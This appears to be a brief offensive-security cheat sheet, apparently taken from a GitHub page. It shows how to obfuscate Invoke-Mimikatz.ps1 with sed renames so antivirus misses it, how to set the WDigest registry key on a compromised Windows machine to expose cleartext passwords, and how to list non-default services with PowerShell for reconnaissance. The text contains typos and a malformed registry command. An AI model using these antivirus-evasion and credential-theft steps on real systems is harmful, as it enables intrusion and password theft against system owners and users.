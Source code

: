 Perform antivirus activities bypass AV machines

# Invoke-Mimikatz.ps1 (obfuscated functions)

- sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1
- sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
- sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
- sed -i -e 's/ArgumentPtr/Obf/g' Invoke-Mimikatz.ps1
- sed -i -e 's/CallDllMainSC1/ObfSC1/'g Invoke-Mimikatz.ps1
- sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

#-# On Windows

Replace the $PESBytes64 with a new one of mimikatz
Lavereging the Steroids-Module for obfuscation


# Subverting mimikatz patch (on compromise machine to extract clear text password)

- add HKLM\SYSTEM\CurrentControlSet\Conttol\SecurityProviders\WDigest /v UserLogonCredential /t REG_DWORD /d 1 /f

# Get NON default Services
$NonDefaultServices = Get-wmiobject win32_service | where { $_.Caption -notmatch "Windows" -and $_.PathName -notmatch "Windows" -and $_.PathName -notmatch "policyhost.exe" -and $_.Name -ne "LSM" -and $_.PathName -notmatch "OSE.EXE" -and $_.PathName -notmatch "OSPPSVC.EXE" -and $_.PathName -notmatch "Microsoft Security Client" }

- $NonDefaultServices.DisplayName # Service Display Name (full name)
- $NonDefaultServices.PathName # Service Executable
- $NonDefaultServices.StartMode # Service Startup mode
- $NonDefaultServices.StartName # Service RunAs Account
- $NonDefaultServices.State # Service State (running/stopped etc)
- $NonDefaultServices.Status # Service Status
- $NonDefaultServices.Started # Service Started status
- $NonDefaultServices.Description # Service Description
